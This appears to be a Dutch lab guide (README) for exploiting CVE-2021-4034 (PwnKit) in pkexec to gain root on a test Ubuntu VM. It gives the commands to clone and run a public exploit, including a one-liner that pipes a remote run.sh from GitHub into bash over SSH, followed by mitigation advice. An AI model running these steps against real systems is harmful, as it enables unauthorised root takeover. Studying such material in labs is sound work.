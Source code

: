 # CVE-2021-4034 (PwnKit) Exploitatie Gids

## 🎯 Overzicht

Deze gids demonstreert hoe je CVE-2021-4034 kunt exploiteren, een lokale privilege-escalatie kwetsbaarheid in de pkexec-component van Polkit. De exploit stelt een lokale gebruiker in staat om root-rechten te verkrijgen op kwetsbare systemen.

## 📋 Vereisten

- SSH-toegang tot de kwetsbare (Ubuntu) VM als gebruiker `tester`
- Internetverbinding om GitHub te bereiken
- Basiskennis van Linux command line
- Kali Linux VM voor exploitatie

## 🔍 Kwetsbaarheidsanalyse

### Technische Details

- **Component**: pkexec (Polkit)
- **Type Kwetsbaarheid**: Lokale Privilege Escalatie (LPE)
- **CVSS Score**: 7.8 (Hoog)
- **Oorzaak**: Out-of-bounds schrijven in argumentafhandeling

### Getroffen Systemen

- Ubuntu 18.04 (en andere Linux distributies)
- Systemen met Polkit versies voor de fix

## 🚀 Exploitatiestappen

### 1. Initiële Toegang

1. SSH naar de kwetsbare (Ubuntu) VM (vanaf de Kali Linux VM):

   ```bash
   ssh tester@<ubuntu_ip>
   ```

2. Controleer huidige rechten:
   ```bash
   id
   # Verwacht resultaat: uid=1000(tester) gid=1000(tester) groups=1000(tester)
   ```

### 2. Exploit Setup

#### Methode 1: Handmatige Setup

1. ssh naar de ubuntu vm

```bash
ssh tester@<ubuntu_ip>
```

2. Clone de exploit repository:

   ```bash
   git clone https://github.com/cd80-ctf/CVE-2021-4034.git
   cd CVE-2021-4034
   ```

3. Maak de exploit uitvoerbaar:

   ```bash
   chmod +x run.sh
   ```

4. Voer de exploit uit:
   ```bash
   ./run.sh
   ```

#### Methode 2: One-liner (Git)

```bash
ssh tester@<ubuntu_ip> \
  'git clone --depth 1 https://github.com/cd80-ctf/CVE-2021-4034.git \
   && cd CVE-2021-4034 \
   && chmod +x run.sh \
   && ./run.sh'
```

#### Methode 3: One-liner (Curl)

```bash
ssh tester@<ubuntu_ip> 'curl -sL https://raw.githubusercontent.com/cd80-ctf/CVE-2021-4034/main/run.sh | bash'
```

### 3. Verificatie

1. Na succesvolle exploitatie, controleer root-toegang:

   ```bash
   id
   # Verwacht resultaat: uid=0(root) gid=0(root) groups=0(root)
   ```

2. Test root-rechten:
   ```bash
   whoami
   # Verwacht resultaat: root
   ```

## 📚 Begrip van de Exploit

### Hoe het Werkt

1. De exploit maakt gebruik van een geheugencorruptie kwetsbaarheid in pkexec
2. Het manipuleert omgevingsvariabelen om de kwetsbaarheid te triggeren
3. De exploit creëert een kwaadaardige omgeving die leidt tot root-toegang

### Technische Details

De kwetsbaarheid bestaat omdat pkexec command-line argumenten niet correct verwerkt, wat leidt tot een out-of-bounds schrijven. Dit stelt een aanvaller in staat om geheugen te manipuleren en verhoogde rechten te verkrijgen.

## 🔒 Veiligheidsimplicaties

- Elke lokale gebruiker kan root-toegang krijgen
- Geen speciale rechten vereist
- Kan worden gebruikt als onderdeel van een grotere aanvalsketen

## 📝 Best Practices

1. **Voor Systeembeheerders**

   - Houd systemen up-to-date
   - Pas beveiligingspatches direct toe
   - Monitor voor verdachte activiteiten

2. **Voor Beveiligingsonderzoekers**
   - Gebruik alleen in gecontroleerde omgevingen
   - Documenteer alle testactiviteiten
   - Volg verantwoorde openbaarmaking

## 🙏 Credits

- Originele kwetsbaarheidsontdekking: **Qualys Security**
- Exploit code: [cd80-ctf](https://github.com/cd80-ctf/CVE-2021-4034)

## ⚠️ Disclaimer

Deze gids is alleen bedoeld voor educatieve doeleinden. De exploit mag alleen worden gebruikt in gecontroleerde omgevingen met de juiste autorisatie.

